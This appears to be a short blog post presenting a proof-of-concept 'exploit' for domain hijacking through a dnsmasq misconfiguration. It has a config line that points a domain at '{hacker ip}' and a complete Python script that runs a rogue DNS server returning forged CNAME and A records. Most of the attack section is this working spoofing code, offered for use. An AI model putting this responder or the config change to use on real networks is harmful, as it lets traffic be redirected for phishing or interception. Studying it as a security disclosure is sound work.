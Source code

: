 ```yaml
---
title: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
tags:
  - dns
  - dnsmasq
description: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
sitemap: false
abbrlink: d8547337
date: 2020-09-09 16:50:00
---
```


# dnsmasq
> Dnsmasq provides network infrastructure for small networks: DNS, DHCP, router advertisement and network boot. It is designed to be lightweight and have a small footprint, suitable for resource constrained routers and firewalls. It has also been widely used for tethering on smartphones and portable hotspots, and to support virtual networking in virtualisation frameworks. Supported platforms include Linux (with glibc and uclibc), Android, *BSD, and Mac OS X. Dnsmasq is included in most Linux distributions and the ports systems of FreeBSD, OpenBSD and NetBSD. Dnsmasq provides full IPv6 support.  

[dnsmasq homepage][1]

## exploit
1. add this config to `dnsmasq.conf` or `dnsmasq.d/poc.conf`
```
server=/a.net/{hacker ip}
```
then restart the dnsmasq to activate this config.  
* dnsmasq.conf is usually at /usr/local/etc/ if in mac os

2. run this code in the {hacker ip} - `poc.py`

```python
#!/usr/bin/env python3

import sys
from socket import socket, AF_INET, SOCK_DGRAM

class dns:
    def __init__(self):
        # hdr
        self.transactionID  = b"\x00\x00" # --
        self.flags          = b"\x81\x80"
        self.questionNum    = b"\x00\x01"
        self.answerRR       = b"\x00\x02"
        self.authorityRR    = b"\x00\x00"
        self.additionalRR   = b"\x00\x00"

        # queries - only one we need
        self.qname  = b"\x01a\x03net\x00" # -- 0x0c
        self.qtype  = b"\x00\x01"
        self.qclass = b"\x00\x01"

        # answers - CNAME
        self.cnameName    = b"\xc0\x0c"
        self.cnameType    = b"\x00\x05"
        self.cnameClass   = b"\x00\x01"
        self.cnameTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.cnameDataLen = b"\x00\x0d" # --
        self.cnameTarget  = b"\x07example\x03net\x00"  # --

        # answers - A
        self.aName    = b"\xc0\x19"  # --
        self.aType    = b"\x00\x01"
        self.aCLass   = b"\x00\x01"
        self.aTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.aDataLen = b"\x00\x04"
        self.aRecord  = b"\x01\x02\x03\x04"
    
    def _setReply(self, query: bytes):
        self.transactionID = query[:2]
        i = 0x0c
        while i < len(query):
            if query[i] == 0:
                break
            i += 1
        self.qname = query[0x0c:i+1]
        self.aName = ((len(self.qname) + 28) | 0xc000).to_bytes(2, byteorder="big")

    def build(self, query: bytes):
        """build dns response to query"""
        self._setReply(query)
        # build
        hdr = self.transactionID + self.flags + self.questionNum + self.answerRR + self.authorityRR + self.additionalRR
        query = self.qname + self.qtype + self.qclass
        answerCNAME = self.cnameName + self.cnameType + self.cnameClass + self.cnameTtl + self.cnameDataLen + self.cnameTarget
        answerA = self.aName + self.aType + self.aCLass + self.aTtl + self.aDataLen + self.aRecord

        return hdr + query + answerCNAME + answerA  


def dns_server(port: int):
    address = ('', port)
    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(address)
    print("Listen UDP on: ", port)
    while True:
        msg, addr = sock.recvfrom(8192)
        print("recv from:", addr)
        if len(msg) > 20:
            d = dns()
            data = d.build(msg)
            sock.sendto(data, addr)


if __name__ == '__main__':
    port = 53
    if len(sys.argv) > 1 and sys.argv[1].isdigit():
        port = int(sys.argv[1])
    dns_server(port)

```

3. check hijack

![poc][2]

[1]: http://www.thekelleys.org.uk/dnsmasq/doc.html
[2]: /assets/images/poc.jpeg